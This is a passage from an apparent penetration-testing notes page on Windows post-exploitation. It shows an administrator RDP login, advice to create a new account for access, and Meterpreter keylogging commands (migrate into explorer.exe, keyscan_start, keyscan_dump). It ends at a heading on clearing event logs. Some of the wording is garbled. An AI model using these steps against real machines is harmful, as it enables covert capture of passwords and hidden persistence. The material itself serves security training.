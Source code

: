 ```bash
xfreerdp /u:administrator /p:new_psw /v:IP
```

A good things to do is create and access with a new windows account and utilize it.

### Windows Keylogging <a href="#linux-pe-modules" id="linux-pe-modules"></a>

A **keylogger,** short for "keystroke logger," is a type of software or hardware device that records the keystrokes made on a computer or mobile device keyboard without the user's knowledge or consent. The primary purpose of a keylogger is to monitor and record everything a user types, including usernames, passwords, messages, and any other text entered via the keyboard.

Keyloggers can be used for both legitimate and malicious purposes:

1. **Legitimate Use:**
   * **Security Monitoring:** Some organizations and individuals use keyloggers for security purposes to monitor and log activity on their own systems. This can help detect unauthorized access or suspicious behavior.
   * **Parental Control:** Parents may use keyloggers to monitor their children's online activities and ensure they are using the internet responsibly.
   * **Employee Monitoring:** Employers may use keyloggers to monitor employee activities on company-owned devices to ensure compliance with company policies.
2. **Malicious Use:**
   * **Cybercrime:** Keyloggers can be deployed by cybercriminals to steal sensitive information such as login credentials, credit card numbers, and personal data.
   * **Identity Theft:** Keyloggers can capture personal information that can be used for identity theft or fraud.
   * **Espionage:** State-sponsored actors and espionage organizations may use keyloggers to gather sensitive information from targeted individuals or organizations.

It's the best alternative to RDP, because ther're not interaction with mouse.

To record keyboard, first we need to migrate explorer.exe process In a the meterpreter target session:

```bash
pgrep explorer #give us explorer.exe ppid
migrate explorer_ppid_number
help #show us all comand includes keylogger
```

we can use these three command to manage keylogger process:

```bash
keyscan_start #start rec
keyscan_stop #stop rec
keyscan_dump #dump rec keys
```

## Clearing Windows Event Logs <a href="#linux-pe-modules" id="linux-pe-modules"></a>

### Windows Event Logs
